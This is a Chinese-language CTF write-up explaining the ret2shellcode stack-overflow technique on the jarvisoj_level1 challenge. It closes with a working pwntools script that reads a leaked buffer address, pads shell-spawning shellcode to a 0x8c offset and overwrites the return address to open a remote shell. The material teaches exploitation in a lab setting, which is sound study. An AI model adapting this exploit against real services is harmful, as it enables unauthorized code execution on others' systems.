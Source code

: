 ```yaml
---
title: 【PWN】ret2shellcode
---
```


## 原理

篡改栈帧上的返回地址为攻击者手动传入的shellcode所在缓冲区地址，并且该区域有执行权限。
## 例题
jarvisoj_level1，可在jarvisoj网站中下载。首先使用checksec工具查看它开了啥保护措施，基本全关，栈可执行。

![1.jpg](/images/ret2shellcode/1.jpg)

一样的使用ida查看一下该程序，在危险函数中，程序向我们输出了一个栈站上的地址因此我们可以朝buf写一段shellcode，然后
将返回地址覆盖为buf的地址。在pwntools中可以使用shellcraft.sh()写shellcode，再使用asm将其转换成机器码。

![2.jpg](/images/ret2shellcode/2.jpg)

ida帮我们计算出来了buf字符串距离rbp有0x88个字节，由于ebp本身还占4个字节，所以溢出0x8c个字节后将返回地址修改为buf地址，python有
个自带的方法ljust可以将我们的shellcode长度补充为固定字节，期作用是使shellcode左对齐，然后不足长度补齐指定数据。

```python
from pwn import *

#p = process('./level1')
p = remote('pwn2.jarvisoj.com',9877)
s = p.recv()
addr = bytes.decode(s)[12:-2]

shellcode = asm(shellcraft.sh())
payload = shellcode.ljust(0x8c,b'A') + p32(int(addr,16))

p.sendline(payload)
p.interactive()
```